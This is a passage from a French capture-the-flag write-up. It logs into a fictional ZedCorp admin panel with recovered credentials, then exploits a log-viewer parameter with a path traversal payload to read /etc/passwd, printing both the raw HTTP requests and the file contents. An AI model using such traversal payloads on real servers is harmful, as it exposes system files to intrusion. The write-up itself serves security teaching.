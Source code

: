 {{< highlight http >}}
POST /login.php HTTP/1.1
Host: 192.168.123.133
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.123.133/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Cookie: PHPSESSID=5tg3l2vkf3o7ngc22qklp4mmd4
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=admin&password=pxrAW7a4HNMBw86bc
{{< /highlight >}}

## Zone d'administration et monitoring des logs

Nous pouvons donc nous authentifier sur le site de _ZedCorp_ avec le compte **admin**. L'interface d'administration propose de visualiser les journaux d'accès et d'erreur du serveur Web. Pour cela, une requête `POST` est envoyée avec le nom du fichier de log en paramètre. Naturellement, on essaye de récupérer un autre fichier et cela fonctionne merveilleusement bien :)

{{< highlight http >}}
POST /0cc175b9c0f1b6a831c399e269772661/admin.php HTTP/1.1
Host: ctf.hacklab-esgi.org:5008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.hacklab-esgi.org:5008/0cc175b9c0f1b6a831c399e269772661/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Cookie: PHPSESSID=urj94cee9424reig3bje31b0a2
Upgrade-Insecure-Requests: 1

log=../../../../../../../../etc/passwd
{{< /highlight >}}
{{< highlight plaintext >}}
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
test:x:1001:1001:,,,:/home/test:/usr/sbin/nologin
trobin:x:1004:1004:Thibaud Robin,8,0145674356,0145674356,Trainee full stack developer:/home/trobin:/bin/bash
{{< /highlight >}}

